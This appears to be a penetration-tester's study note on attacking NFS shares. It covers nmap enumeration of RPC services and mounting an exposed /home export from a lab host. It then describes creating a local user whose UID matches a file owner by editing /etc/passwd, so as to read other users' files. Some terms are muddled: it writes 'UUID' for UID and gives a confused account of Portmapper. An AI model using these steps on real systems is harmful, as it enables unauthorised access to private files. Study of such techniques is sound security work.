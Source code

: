 


Network File System - Distributed file system protocol allowing a user on a client computer to access files over a computer network as if they were on locally-mounted storage.  
  
Often used w/ UNIX OS's, predominantly insecure in its implementation, and easy to leverage.  
  
  
**Portmapper** and [RPCbind](RPCbind.md) run on 111/TCP  
```bash
nmap -sV -p 111 --script=rpcinfo <ip>
```


**Portmapper** manages the port mappings of a UPnP enabled internet gateway device in the local network  
  
[RPCbind](RPCbind.md) maps RPC services to the ports on which they listen  
  
  
[nmap](Tools.md#nmap) - has 3 [NSE scripts](Tools.md#nse%20scripts) located in _/usr/share/nmap/scripts/nfs*_  
  
Can be run together: 
```bash
nmap -p 111 --script=nfs* <ip>
```

 
Nmap scan report for 10.11.1.72  
PORT STATE SERVICE  
111/tcp open rpcbind  
| nfs-showmount:  
|_ /home 10.11.0.0/255.255.0.0  
  
^^ Shows the entire **/home** directory is being shared and can be mounted.  
  
**-o** **nolock** is used to disable file locking - often needed for older NFS servers  
  
```bash
mkdir home  
sudo mount -o nolock 10.11.1.72:/home ~/home/  
cd home/ && ls  
        jenny joe45 john marcus ryuu
```

^^ Shows multiple users' home directories  
  
Likely won't have permission to view files, so we can [adduser](User%20Mgmt.md), use [sed](OS%20Commands.md#sed) to change it's UUID to the same UUID of the owner of the desired file, [su](User%20Mgmt.md) to that user, and try accessing again.  
  
To change a UUID:  
```bash
sudo sed -i -e 's/old_UUID/new_UUID/g' /etc/passwd
```